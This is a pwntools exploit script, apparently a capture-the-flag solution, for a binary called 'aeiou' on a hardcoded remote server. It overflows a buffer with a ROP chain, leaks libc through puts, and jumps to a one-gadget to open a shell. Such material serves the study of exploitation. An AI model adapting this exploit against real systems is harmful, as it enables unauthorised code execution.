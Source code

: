 
```python=
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = '110.10.147.109'
port = 17777

binary = "./aeiou"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")


if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

def Tn(size,data):
  r.recvuntil(">>")
  r.sendline("3")
  r.recvuntil("!")
  r.sendline(str(size))
  r.send(data)


puts_plt = 0x0400B58
pop_rdi = 0x00000000004026f3
pop_rsi_15 = 0x00000000004026f1
pop_rsp_3 = 0x00000000004026ed
puts_got = 0x0603F50

buf = 0x00605000-0x200
read_plt = 0x000400B88

if __name__ == '__main__':
  payload = ("\x00"*0x1018 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) +
            p64(pop_rdi) + p64(0) + p64(pop_rsi_15) + p64(buf) + p64(0) + p64(read_plt) +
            p64(pop_rsp_3) + p64(buf-0x18) +
            "\x00"*0x800)
  Tn(len(payload),payload)
  r.recvuntil("ou :)\n")
  libc.address = u64(r.recvuntil("\n")[:-1].ljust(8,"\x00")) - libc.symbols['puts']
  print("libc.address = {}".format(hex(libc.address)))
  r.sendline(p64(libc.address+0x4526a))
  r.interactive()
```
